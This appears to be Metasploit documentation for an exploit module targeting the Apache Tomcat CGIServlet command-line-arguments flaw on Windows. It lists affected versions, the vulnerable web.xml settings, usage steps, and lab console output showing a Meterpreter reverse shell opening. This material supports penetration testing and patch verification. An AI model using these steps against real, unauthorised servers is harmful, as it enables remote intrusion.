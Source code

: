 ## Description

This module exploits a vulnerability in Apache Tomcat's CGIServlet component. When the enableCmdLineArguments setting is set to true, a remote user can abuse this to execute system commands, and gain remote code execution.

## Vulnerable Application

The following versions of Apache Tomcat on Windows are effected:

* 9.0.0.M1 to 9.0.17
* 8.5.0 to 8.5.39
* 7.0.0 to 7.0.93

Also, the machine needs to enable the enableCmdLineArguments option in web.xml. For example:

```xml
<servlet>
<servlet-name>cgi</servlet-name>
<servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
<init-param>
  <param-name>cgiPathPrefix</param-name>
  <param-value>WEB-INF/cgi</param-value>
</init-param>
<init-param>
  <param-name>executable</param-name>
  <param-value></param-value>
</init-param>
<init-param>
  <param-name>enableCmdLineArguments</param-name>
  <param-value>true</param-value>
</init-param>
<load-on-startup>5</load-on-startup>
</servlet>
```

Also:

```xml
<servlet-mapping>
<servlet-name>cgi</servlet-name>
<url-pattern>/cgi/*</url-pattern>
</servlet-mapping>
```

Finally, a script needs to be available in the webapps\ROOT\WEB-INF\cgi directory. For example:

```
@echo off
echo Content-Type: text/plain
echo.
echo Hello, World!
```

## Verification Steps

1. Start msfconsole
2. Do: `use windows/http/tomcat_cgi_cmdlineargs`
3. Configure rhosts
4. Configure TARGETURI
5. Set a payload
6. Run the module, you should get a session.

## Scenarios

The following tests were performed against this specific setup:

* Windows 10 Pro (x64)
* Apache Tomcat 9.0.17
* JDK 8

### Check Method

The check method of the exploit explicitly triggers the bug to verify the vulnerable, therefore it should be accurate. To use it, here is an example:

```
msf5 exploit(windows/http/tomcat_cgi_cmdlineargs) > check
[+] 172.16.135.141:8080 - The target is vulnerable.
```

### Code Execution

```
msf5 exploit(windows/http/tomcat_cgi_cmdlineargs) > exploit

[*] Started reverse TCP handler on 172.16.135.1:4444 
[*] Checking if 172.16.135.141 is vulnerable
[*] 172.16.135.141 seems vulnerable, what a good day.
[*] Command Stager progress -   6.95% done (6999/100668 bytes)
[*] Command Stager progress -  13.91% done (13998/100668 bytes)
[*] Command Stager progress -  20.86% done (20997/100668 bytes)
[*] Command Stager progress -  27.81% done (27996/100668 bytes)
[*] Command Stager progress -  34.76% done (34995/100668 bytes)
[*] Command Stager progress -  41.72% done (41994/100668 bytes)
[*] Command Stager progress -  48.67% done (48993/100668 bytes)
[*] Command Stager progress -  55.62% done (55992/100668 bytes)
[*] Command Stager progress -  62.57% done (62991/100668 bytes)
[*] Command Stager progress -  69.53% done (69990/100668 bytes)
[*] Command Stager progress -  76.48% done (76989/100668 bytes)
[*] Command Stager progress -  83.43% done (83988/100668 bytes)
[*] Command Stager progress -  90.38% done (90987/100668 bytes)
[*] Command Stager progress -  97.34% done (97986/100668 bytes)
[*] Sending stage (179779 bytes) to 172.16.135.141
[*] Meterpreter session 1 opened (172.16.135.1:4444 -> 172.16.135.141:51982) at 2019-06-18 15:26:54 -0500
[*] Command Stager progress - 100.02% done (100692/100668 bytes)

meterpreter > 
[!] Make sure to manually cleanup the exe generated by the exploit
```

